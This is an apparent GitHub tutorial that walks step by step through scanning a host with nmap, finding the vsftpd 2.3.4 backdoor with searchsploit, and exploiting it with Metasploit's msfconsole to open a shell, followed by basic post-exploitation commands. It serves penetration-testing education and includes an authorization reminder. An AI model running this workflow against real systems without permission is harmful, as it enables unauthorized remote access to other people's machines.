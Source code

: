 # 🔍 Basic Metasploit Exploitation Workflow

## 📋 Overview
This guide outlines a typical penetration testing workflow using tools like `nmap`, `searchsploit`, and Metasploit (`msfconsole`) to identify, select, and exploit a vulnerable service running on a target machine.

---

###  1️⃣ Scan the Target with Nmap
```
sudo nmap -sV 192.168.0.xxx
```

#### 2️⃣ Search for a Known Exploit
```
searchsploit vsftpd
```

- Purpose: Search for known vulnerabilities related to vsftpd or any identified service.
- Note: If searchsploit isn't available, install it via:
```
sudo apt install exploitdb
```
#### 3️⃣ Launch Metasploit Console
```
msfconsole
```
- Purpose: Start the Metasploit Framework for exploitation.

#### 4️⃣ Select an Exploit Module
```
use exploit/unix/ftp/vsftpd_234_backdoor
```
- Purpose: Load the exploit for the vsftpd 2.3.4 backdoor vulnerability.
- Tip: Use search vsftpd inside msfconsole to find exact paths.

#### 5️⃣ Set the Target Host
```
set RHOSTS 192.168.0.xxx

```
- Purpose: Define the remote host IP address to target.
- Note: Replace with actual IP discovered via nmap.

#### 6️⃣ View and Configure Exploit Options
```
show options

```
- Purpose: Display required settings (e.g., RHOSTS, LPORT, etc.).
- Make any additional configurations if needed using set commands.

#### 7️⃣ Run the Exploit
```
exploit
```
- Purpose: Launch the exploit against the specified target.
- Output: If successful, a session will be opened.

#### 8️⃣ Access the Target Machine
```
whoami
uname -a
ls
```
🧠 Notes & Best Practices
```
# Replace placeholder IPs with actual addresses from your network.
# Only test systems you are authorized to access.
# After exploitation, explore:
#   - getuid      → View current user
#   - sysinfo     → View system information
#   - sessions    → Manage multiple sessions
#   - background  → Background current session
```

📂 Example Flow
```
sudo nmap -sV 192.168.0.105
searchsploit vsftpd
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.0.105
show options
exploit
whoami
```